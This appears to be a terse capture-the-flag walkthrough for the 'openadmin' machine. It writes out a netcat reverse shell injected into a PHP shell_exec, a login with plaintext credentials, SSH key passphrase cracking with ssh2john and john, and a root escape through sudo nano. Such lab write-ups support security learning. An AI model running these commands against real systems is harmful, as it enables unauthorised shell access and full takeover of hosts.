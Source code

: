 
### changed the shell_exec command in /main.php to: 
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 5555 >/tmp/f`


### `curl -u jimmy:n1nj4W4rri0R! 127.0.0.1:52846/main.php` 
with a netcat to catch joanna shell


so… had to crack joanna’s ssh key actually [when see a ‘passphrase’ for SSH private key, know that this can be cracked with john]
`python /usr/share/john/ssh2john.py joanna.key > joanna.key.hashes`


### `sudo john --format=SSH joanna.key.hashes`
bloodninjas


### `joanna@openadmin:~$ sudo -l`
```
Matching Defaults entries for joanna on openadmin:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```


### `https://gtfobins.github.io/gtfobins/nano/#sudo`
```
sudo nano /opt/priv
```
hit ctrl+R

hit ctrl+X
```
reset; sh 1>&0 2>&0
```

### rooted
